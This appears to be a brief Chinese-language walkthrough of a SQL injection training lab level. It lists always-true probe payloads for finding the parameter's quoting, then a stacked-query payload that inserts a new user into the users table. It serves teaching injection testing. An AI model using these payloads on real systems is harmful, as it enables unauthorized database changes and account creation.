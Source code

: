 # POST-Error based-string-Stacked Blind 
TAG：POST型注入、堆叠注入、盲注  
## 漏洞利用  
![less44_1](images\less44_1.png)  
此less是less42的变种，但是并么有password栏的报错提示  
![less44_2](images\less44_2.png)  
  
为获得参数包裹方式要构建多个永真条件语句，通过显示页面的不同来进行判断  
Payload1:```1 or 1=1--+```  
Payload2:```1' or 1=1--+```  
Payload3:```1" or 1=1--+```  
Payload4:```1') or 1=1--+```  
Payload5:```1") or 1=1--+```  
通过测试发现参数被单引号包裹  
![less44_3](images\less44_3.png)  
  
构造插入用户的语句  
Payload:```1';insert into users(id,username,password) values ('23','less44','hello')--+```  
![less44_4](images\less44_4.png)  
  
成功创建用户  
![less44_5](images\less44_5.png)  